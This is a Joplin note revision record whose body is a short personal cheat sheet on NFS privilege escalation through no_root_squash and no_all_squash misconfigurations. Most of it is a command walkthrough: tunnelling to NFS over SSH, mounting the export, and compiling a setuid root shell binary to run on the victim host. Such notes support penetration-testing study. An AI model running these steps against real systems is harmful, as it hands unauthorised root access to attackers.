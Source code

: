 id: 20cd5702df5f4070a7626ac32fde683f
parent_id: 
item_type: 1
item_id: 5c154102202a4bc2810ada55f25852e7
item_updated_time: 1642323843363
title_diff: "[{\"diffs\":[[1,\"NFS Vulns\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":9}]"
body_diff: "[{\"diffs\":[[1,\"<ins>Vulnerabilities</ins>\\\n\\\n[https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no\\\\_root\\\\_squash-misconfiguration-pe](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)\\\n\\\nRead the /etc/exports file, if you find some directory that is configured as no\\\\_root\\\\_squash, then you can access it from as a client and write inside that directory as if you were the local root of the machine.\\\n\\\nno\\\\_root\\\\_squash: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.\\\n\\\nno\\\\_all\\\\_squash: This is similar to no\\\\_root\\\\_squash option but applies to non-root users. Imagine, you have a shell as nobody user; checked /etc/exports file; no\\\\_all\\\\_squash option is present; check /etc/passwd file; emulate a non-root user; create a suid file as that user (by mounting using nfs). Execute the suid as nobody user and become different user.\\\n\\\n<ins>NFS; no\\\\_root\\\\_squash, insecure, rw</ins>\\\n\\\nIf /etc/exports have a line e.g.\\\n\\\n> /srv/pelota 192.168.42.0/24(insecure,rw)\\\n> /srv/pelota 127.0.0.1/32(no\\\\_root\\\\_squash,insecure,rw)\\\n\\\nThen NFS is being exported and you have ssh access to the machine. You can use your attacker machine (login as root) to run:\\\n\\\n> ssh -f -N megumin@192.168.42.43 -L 2049:127.0.0.1:2049\\\n> mount -t nfs 127.0.0.1:/srv/pelota my_share\\\n> cd my_share\\\n> cat > shell.c<<EOF\\\n> #include &lt;unistd.h&gt;\\\n> int main(){\\\n> setuid(0);\\\n> setgid(0);\\\n> system(\\\"/bin/bash\\\");\\\n> }\\\n> EOF\\\n> gcc shell.c -o shell\\\n> chmod u+s shell\\\n\\\nNow inside a ssh session on the victim machine i.e. 192.168.42.32 in this case\\\n\\\n> cd /srv/pelota\\\n> ./shell\\\n> \\\n> Use 'id' to identify what user you are\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":1730}]"
metadata_diff: {"new":{"id":"5c154102202a4bc2810ada55f25852e7","parent_id":"27b595c9aae647aba407fed241a81f90","latitude":"1.36730000","longitude":"103.80140000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":0,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-01-16T09:05:29.319Z
created_time: 2022-01-16T09:05:29.319Z
type_: 13